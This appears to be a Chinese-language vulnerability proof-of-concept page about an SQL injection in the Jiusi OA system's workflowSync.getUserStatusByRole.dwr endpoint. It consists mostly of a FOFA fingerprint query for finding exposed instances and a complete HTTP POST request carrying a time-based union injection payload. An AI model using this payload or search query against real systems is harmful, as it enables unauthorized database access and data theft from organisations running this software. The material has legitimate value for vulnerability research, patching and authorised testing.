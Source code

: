# 九思OA系统workflowSync.getUserStatusByRole.dwr存在SQL注入

北京九思协同办公软件 `/jsoa/workflow/dwr/exec/workflowSync.getUserStatusByRole.dwr`接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
app="九思软件-OA"
```

## poc

```javascript
POST /jsoa/workflow/dwr/exec/workflowSync.getUserStatusByRole.dwr HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

callCount=1
c0-scriptName=workflowSync
c0-methodName=getUserStatusByRole
c0-id=1
c0-param0=string:1
c0-param1=string:1 union select 0,sleep(5)#
xml=true
```

![image-20241128095426150](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280954210.png)